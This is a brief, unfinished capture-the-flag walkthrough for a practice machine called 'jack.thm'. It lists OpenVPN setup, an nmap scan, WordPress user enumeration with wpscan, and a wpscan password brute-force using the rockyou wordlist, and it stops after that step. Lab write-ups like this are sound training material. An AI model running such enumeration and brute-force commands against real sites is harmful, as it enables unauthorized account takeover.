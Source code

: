 ## Steps:
1. Connect with openvpn config file.
  $ openvpn configfile.ovpn
2. After connected in your server:
  $ nano /etc/hosts
3. Add "jack.thm"
4. Run with nmap:
  $ nmap -T4 -sS -sC -sV jack.thm scans/nmap
5. For find Users:
  $ wpscan -e u --url http://jack.thm
6. After got the users (danny,jack,wendy) and save it.
  $ wpscan --url http://jack.thm -U users.txt -P /usr/share/wordlists/rockyou.txt
  $ 
